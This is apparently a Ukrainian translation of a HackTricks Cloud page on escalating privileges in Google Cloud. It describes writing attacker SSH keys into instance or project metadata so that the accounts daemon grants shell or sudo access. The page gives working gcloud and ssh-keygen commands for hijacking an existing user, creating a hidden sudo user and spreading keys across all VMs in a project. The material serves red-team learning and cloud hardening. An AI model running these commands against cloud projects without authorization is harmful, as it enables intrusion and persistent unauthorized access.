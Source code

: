 # GCP - Додавання користувацьких метаданих SSH

{% hint style="success" %}
Вивчайте та практикуйте взлом AWS: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Школа взлому AWS для Червоної Команди (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Вивчайте та практикуйте взлом GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Школа взлому GCP для Червоної Команди (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Поширюйте хакерські трюки, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на GitHub.

</details>
{% endhint %}

## Зміна метаданих <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Зміна метаданих на екземплярі може призвести до **значних ризиків безпеки, якщо зловмисник отримає необхідні дозволи**.

### **Включення SSH-ключів у користувацькі метадані**

На GCP, **системи Linux** часто виконують скрипти з [Python Linux Guest Environment для Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Критичною складовою цього є [демон облікових записів](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), який призначений для **регулярної перевірки** кінцевої точки метаданих екземпляра на **оновлення авторизованих публічних SSH-ключів**.

Отже, якщо зловмисник може змінити користувацькі метадані, він може змусити демона знайти новий публічний ключ, який буде оброблений та **інтегрований у локальну систему**. Ключ буде доданий до файлу `~/.ssh/authorized_keys` існуючого користувача або, можливо, створення нового користувача з привілеями `sudo`, залежно від формату ключа. І зловмисник зможе скомпрометувати хост.

### **Додавання SSH-ключа до існуючого привілейованого користувача**

1. **Перегляд існуючих SSH-ключів на екземплярі:**
- Виконайте команду для опису екземпляра та його метаданих, щоб знайти існуючі SSH-ключі. Відповідний розділ у виводі буде під `metadata`, зокрема ключ `ssh-keys`.
```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
- Зверніть увагу на формат SSH-ключів: перед ключем йде ім'я користувача, розділене двокрапкою.

2. **Підготовка текстового файлу для метаданих SSH-ключа:**
- Збережіть деталі імен користувачів та відповідних SSH-ключів у текстовий файл з назвою `meta.txt`. Це важливо для збереження існуючих ключів при додаванні нових.

3. **Створення нового SSH-ключа для цільового користувача (`alice` у цьому прикладі):**
- Використовуйте команду `ssh-keygen` для генерації нового SSH-ключа, переконавшись, що поле коментаря (`-C`) відповідає імені цільового користувача.
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
- Додайте новий публічний ключ до `meta.txt`, наслідуючи формат, знайдений у метаданих екземпляра.

4. **Оновлення метаданих SSH-ключа екземпляра:**
- Застосуйте оновлені метадані SSH-ключа до екземпляра за допомогою команди `gcloud compute instances add-metadata`.
```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```

5. **Доступ до екземпляра за допомогою нового SSH-ключа:**
- Підключіться до екземпляра за допомогою SSH за допомогою нового ключа, отримуючи доступ до оболонки в контексті цільового користувача (`alice` у цьому прикладі).
```bash
ssh -i ./key alice@localhost
sudo id
``` 

### **Створення нового привілейованого користувача та додавання SSH-ключа**

Якщо не знайдено цікавого користувача, можливо створити нового, якому будуть надані привілеї `sudo`:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### SSH ключі на рівні проекту <a href="#sshing-around" id="sshing-around"></a>

Можливо розширити доступ до SSH до кількох Віртуальних Машин (VMs) в хмарному середовищі, **застосовуючи SSH ключі на рівні проекту**. Цей підхід дозволяє доступ до SSH до будь-якого екземпляра всередині проекту, який не був явно заблокований для проектних SSH ключів. Ось короткий посібник:

1. **Застосування SSH ключів на рівні проекту:**
- Використовуйте команду `gcloud compute project-info add-metadata`, щоб додати SSH ключі з `meta.txt` до метаданих проекту. Ця дія гарантує, що SSH ключі будуть визнані на всіх VMs у проекті, якщо VM не має включеної опції "Блокувати проектні SSH ключі".
```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **SSH в екземпляри, використовуючи проектні ключі:**
- З проектними SSH ключами встановленими, ви можете SSH в будь-який екземпляр всередині проекту. Екземпляри, які не блокують проектні ключі, приймуть SSH ключ, надаючи доступ.
- Прямий метод SSH в екземпляр полягає в використанні команди `gcloud compute ssh [INSTANCE]`. Ця команда використовує ваше поточне ім'я користувача та SSH ключі, встановлені на рівні проекту, для спроби доступу.


# References
* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)
